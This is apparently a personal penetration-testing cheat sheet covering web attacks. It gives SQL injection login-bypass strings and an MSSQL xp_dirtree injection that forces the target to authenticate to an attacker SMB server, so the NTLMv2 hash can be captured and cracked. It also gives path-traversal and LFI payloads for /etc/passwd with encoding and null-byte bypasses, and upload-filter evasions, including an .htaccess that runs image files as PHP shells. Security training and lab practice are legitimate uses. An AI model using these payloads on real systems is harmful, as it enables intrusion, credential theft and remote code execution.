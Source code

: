#### Text Boxes
- `'`  on every text box. if leads to error, try:
```
' or 1=1 limit 1;-- -
```
- if that succeeds, SQL injection!
If SQLi on windows target, start `smbserver.py test . -smb2support` and try appending this to URL where `'` goes:
```
;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--
```
- replace `10.10.14.5` with kali IP
- ex: `https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=8;%20EXEC%20master..xp_dirtree%20%22\\10.10.14.5\test%22;%20--`
- catch ntlmv2 hash and crack with john (copy whole thing including username and trailing 00000s)

Google the http-title

`searchsploit service version`

`searchsploit /path/to/exploit -m`
- copy to current directory

`searchsploit /path/to/exploit -x`
- view exploit

#### Path Traversal File Inclusion LFI RFI
?param=
```
../../../../../etc/passwd
```
- linux
```
..\..\..\..\..\Windows\boot.ini
```
- windows
- also sometimes forward slashes work `../../../../../../Windows/boot.ini`
- nested traversal sequences, such as `....//` or `....\/`
- URL encoding `../` = `%2e%2e%2f` and double URL encoding = `%252e%252e%252f` non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f`
- may require the user-supplied filename to start with the expected base folder, such as `filename=/var/www/images/../../../etc/passwd`
- may require the user-supplied filename to end with an expected file extension, such as .png, for ex: `filename=../../../etc/passwd%00.png`
###### Second-Order LFI attack
- if you also have ability to create a user account & access a URL subdirectory that contains your username, try naming the account "../../../etc/passwd" then accessing that URL
	- might need to use null bye injection or other bypass to end string if subdirectory of URL isn't end of URL
		- ex: /profile/$username/avatar.png
			- try: /profile/../../../etc/passwd%00

#### File Upload:
Upload filters are either:
1. File Extensions
2. Content-Type
3. Magic Number
- ##### Extensions
	- .pHp or .PHP case variations
	- check other extensions
	- shell.php.jpg double extensions
		- for double extension, also upload `.htaccess` file to same directory as shell (make sure to turn on hidden files from upload dialog box) that contains:
```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .jpeg
AddType application/x-httpd-php .png
```